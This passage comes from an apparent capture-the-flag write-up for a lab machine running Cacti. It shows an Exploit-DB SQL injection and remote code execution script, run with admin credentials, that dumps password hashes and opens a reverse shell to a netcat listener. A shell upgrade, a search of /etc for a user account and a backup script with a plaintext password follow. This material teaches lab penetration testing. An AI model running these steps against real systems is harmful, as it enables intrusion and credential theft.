 ```zsh
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49810.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.5 --lport 4444 
[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:cd05039fb335b6d5cbf9fcecc77db39a5d777669,1694259967
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```

The reverse shell worked and our netcat shows we’re connected as `www-data`:

```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.238] 33632
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

At this point, I always use this command to upgrade my shell (though here it’s probably unnecessary):

```zsh
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## www-data -> marcus

Let’s look for references to the user `marcus`:

```zsh
$ grep 'marcus' /etc -R 2>/dev/null
grep 'marcus' /etc -R 2>/dev/null
/etc/group-:marcus:x:1000:
/etc/subgid:marcus:165536:65536
/etc/group:marcus:x:1000:
/etc/passwd:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh
/etc/subuid:marcus:165536:65536
/etc/passwd-:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash

$ cat /home/marcus/.backup/backup.sh
cat /home/marcus/.backup/backup.sh                                                                                                                  
#!/bin/bash                                                                                                                                         
                                                                                                                                                    
backup_name="cacti_backup"                                                                                                                          
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```